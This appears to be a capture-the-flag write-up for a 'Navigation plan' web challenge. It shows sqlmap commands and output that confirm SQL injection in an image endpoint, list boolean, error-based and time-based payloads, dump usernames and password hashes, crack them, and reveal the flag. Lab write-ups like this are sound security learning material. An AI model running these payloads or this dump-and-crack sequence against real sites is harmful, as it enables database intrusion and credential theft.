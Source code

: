 ## Navigation plan

Points: 3

Inspection of the page tells us that there is a `/system/login` endpoint and a suspicious `/image.png?type=data&t=targets&id=1` endpoint.
Playing with it for a while hints at SQLi vulnerability, so let's feed it to sqlmap: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1"`
and indeed it is vulnerable endpoint with MySQL >= 5.0 database and PHP 8.2.10 on Apache:
```
...
GET parameter 'type' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: type (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
    Payload: type=data,(SELECT (CASE WHEN (6698=6698) THEN 1 ELSE 6698*(SELECT 6698 FROM INFORMATION_SCHEMA.PLUGINS) END))&t=targets&id=1

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: type=data OR (SELECT 3574 FROM(SELECT COUNT(*),CONCAT(0x7176627171,(SELECT (ELT(3574=3574,1))),0x7170626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&t=targets&id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: type=data AND (SELECT 6043 FROM (SELECT(SLEEP(5)))IYZq)&t=targets&id=1
---
...
```

Let's get the DB name: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" --current-db` -> `navigation`
Enumeration of tables: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation --tables`
->
```
[3 tables]
+---------+
| files   |
| targets |
| users   |
+---------+
```

Next I tried to fetching `TARGETS.DETAIL(S)` column but apparently there isn't any column like that and I couldn't enumerate columns of the tables. So I tried dumping the `users` and see if I can login.

`sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C username --dump` ->
```
Database: navigation
Table: users
[3 entries]
+----------+
| username |
+----------+
| captain  |
| engeneer |
| officer  |
+----------+
```

Dumping `password` also offered cracking which I tried, using rockyou wordlist:
`sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C password --dump` ->

```
Database: navigation
Table: users
[3 entries]
+-------------------------------------------------------------------------------------+
| password                                                                            |
+-------------------------------------------------------------------------------------+
| 15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225 (123456789)        |
| 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb                    |
| 7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537 ($captainamerica$) |
+-------------------------------------------------------------------------------------+
```

Then I tried logging - `engineer/123456789` worked but that's a deactivated account. `captain/$captainamerica$` logged me in and I could read as that and clicking on Details for Target #4:

`FLAG{fmIT-QkuR-FFUv-Zx44}`
